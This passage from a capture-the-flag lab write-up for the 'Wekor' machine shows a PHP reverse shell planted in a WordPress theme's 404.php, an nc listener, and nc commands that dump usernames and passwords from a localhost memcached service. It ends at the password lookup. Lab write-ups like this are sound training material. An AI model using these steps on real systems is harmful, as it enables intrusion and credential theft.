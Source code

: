 ## Reverse Shell

Now that we are logged in with admin privileges, go to "Appearance > Theme Editor", and edit the `404.php` template page to replace its content with a PHP reverse shell. Start a listener (`nc -nlvp 4444`) and browse http://site.wekor.thm/wordpress/wp-content/themes/twentytwentyone/404.php. We now have a reverse shell.

## Lateral move (www-data -> Orka)

Running linpeas.sh will reveal several services running for localhost only, 1 of which on port 11211.

~~~
[+] Active Ports
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:3010          0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::80                   :::*                    LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               
tcp6       0      0 ::1:631                 :::*                    LISTEN      -               
~~~

After some reasearch on the Internet, I found [this post](https://book.hacktricks.xyz/pentesting/11211-memcache) about memcache. Let's check if we can dump cached information:

~~~
www-data@osboxes:/$ echo "stats items" | nc -vn -w 1 127.0.0.1 11211
echo "stats items" | nc -vn -w 1 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
STAT items:1:number 5
STAT items:1:age 1361
STAT items:1:evicted 0
STAT items:1:evicted_nonzero 0
STAT items:1:evicted_time 0
STAT items:1:outofmemory 0
STAT items:1:tailrepairs 0
STAT items:1:reclaimed 0
STAT items:1:expired_unfetched 0
STAT items:1:evicted_unfetched 0
STAT items:1:crawler_reclaimed 0
STAT items:1:crawler_items_checked 0
STAT items:1:lrutail_reflocked 0
END
www-data@osboxes:/$ echo "stats cachedump 1 0" | nc -vn -w 1 127.0.0.1 11211
echo "stats cachedump 1 0" | nc -vn -w 1 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
ITEM id [4 b; 1620801753 s]
ITEM email [14 b; 1620801753 s]
ITEM salary [8 b; 1620801753 s]
ITEM password [15 b; 1620801753 s]
ITEM username [4 b; 1620801753 s]
END
www-data@osboxes:/$ echo "get username" | nc -vn -w 1 127.0.0.1 11211
echo "get username" | nc -vn -w 1 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
VALUE username 0 4
Orka
END
www-data@osboxes:/$ echo "get password" | nc -vn -w 1 127.0.0.1 11211
echo "get password" | nc -vn -w 1 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
VALUE password 0 15
~~~